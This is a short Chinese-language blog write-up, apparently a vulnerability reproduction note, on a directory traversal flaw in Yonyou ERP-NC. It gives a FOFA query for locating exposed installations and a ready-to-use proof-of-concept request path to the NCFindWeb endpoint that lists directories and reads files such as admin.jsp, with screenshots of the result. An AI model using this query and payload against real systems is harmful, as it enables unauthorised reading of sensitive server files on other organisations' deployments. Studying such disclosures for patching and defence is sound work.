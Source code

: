 # ⽤友ERP-NC ⽬录遍历漏洞


### 漏洞描述

⽤友ERP-NC 存在⽬录遍历漏洞，攻击者可以通过⽬录遍历获取敏感⽂件信息 



### fofa语法

```bash
app="⽤友-UFIDA-NC"
```

![](http://image.xpshuai.cn/%E7%94%A8%E5%8F%8Bfofa.jpg)



### 复现

POC:

```bash
 /NCFindWeb?service=IPreAlertConfigService&filename=
```

![](http://image.xpshuai.cn/%E7%94%A8%E5%8F%8B%E4%BA%BApoc1.jpg)

查看文件（这里以admin.jsp为例）：

![](http://image.xpshuai.cn/%E7%94%A8%E5%8F%8Bpoc.jpg)

---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://shuai06.github.io/%E5%8F%8Berp-nc-%E5%BD%95%E9%81%8D%E5%8E%86%E6%BC%8F%E6%B4%9E/  

